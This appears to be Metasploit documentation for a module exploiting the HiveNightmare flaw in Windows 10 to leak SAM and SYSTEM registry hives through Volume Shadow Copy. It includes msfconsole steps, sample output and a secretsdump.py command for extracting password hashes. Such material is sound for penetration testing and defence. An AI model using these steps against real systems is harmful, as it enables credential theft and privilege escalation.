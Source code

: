 ## Vulnerable Application

### Description

Due to mismanagement of SAM and SYSTEM hives in Windows 10, it is possible for an unprivileged
user to read those files. But, as they are locked while Windows is running we are not able
to read them directly. The trick is to take advantage of Volume Shadow Copy, which is generally
enabled, to finally have a read access. Once SAM and SYSTEM files are successfully dumped and
stored in `store_loot`, you can dump the hashes with some external scripts like secretsdump.py

### Installation

VSS is probably already enabled on your Windows 10, if you want to be sure you can follow the steps below:

* Open the control panel
* Navigate to `System and Security > System`
* Select `System Protection` from the column on the left
* See in `Protection Settings` list if t drive protection is enabled
* Optionally, select `Create` to "Create a resptore point right now..."
    * This is necessary if the module can not find an existing Shadow Copy file which can be the case if the Windows
      instance is brand new

Be aware that you will need Administrator privileges to follow those steps.
You can read more [here](https://isc.sans.edu/diary/Summer+of+SAM+-+incorrect+permissions+on+Windows+1011+hives/27652).

## Verification Steps


1. Start `msfconsole`
2. `use post/windows/gather/credentials/windows_sam_hivenightmare`
3. `set ITERATIONS <number>` to specify the number of iterations on file index (default is 10)
4. `set FILE_INDEX <number>` optionally if you want to target a specific file index instead of iterating on all indexes in a range
5. `run` the module to exploit the vulnerability and potentially leak SAM and SYSTEM files

## Options

### ITERATIONS

Set ITERATIONS to specify the number of iterations on Shadow Copy file index.
Windows is saving those files under the volume name `HarddiskVolumeShadowCopy<index>`.
By default, this module is bruteforcing that `index` value by trying all values between 0 and 10, which you can change if needed.

### FILE_INDEX

Set FILE_INDEX if you want to target a specific index instead of the default behaviour which bruteforces all indexes in a given range.

## Scenarios

This module was successfully tested on Windows 10 20H2.
See the following output:

```
msf6 post(windows/gather/credentials/windows_sam_hivenightmare) > run

[+] SAM data found in HarddiskVolumeShadowCopy1!
[+] Retrieving files of index 1 as they are the most recently modified...
[+] SAM data saved at /home/smcintyre/.msf4/loot/20210729113916_default_192.168.159.15_windows.sam_763500.bin
[+] SYSTEM data saved at /home/smcintyre/.msf4/loot/20210729113926_default_192.168.159.15_windows.system_202176.bin
[+] SAM and SYSTEM data were leaked!
[*] Post module execution completed
msf6 post(windows/gather/credentials/windows_sam_hivenightmare) > file /home/smcintyre/.msf4/loot/20210729113916_default_192.168.159.15_windows.sam_763500.bin
[*] exec: file /home/smcintyre/.msf4/loot/20210729113916_default_192.168.159.15_windows.sam_763500.bin

/home/smcintyre/.msf4/loot/20210729113916_default_192.168.159.15_windows.sam_763500.bin: MS Windows registry file, NT/2000 or above
msf6 post(windows/gather/credentials/windows_sam_hivenightmare) >
```

Then, you can dump the hashes from leaked files with `secretsdump.py` for instance:
`python3 secretsdump.py -sam <SAM_FILE> -system <SYSTEM_FILE> LOCAL`

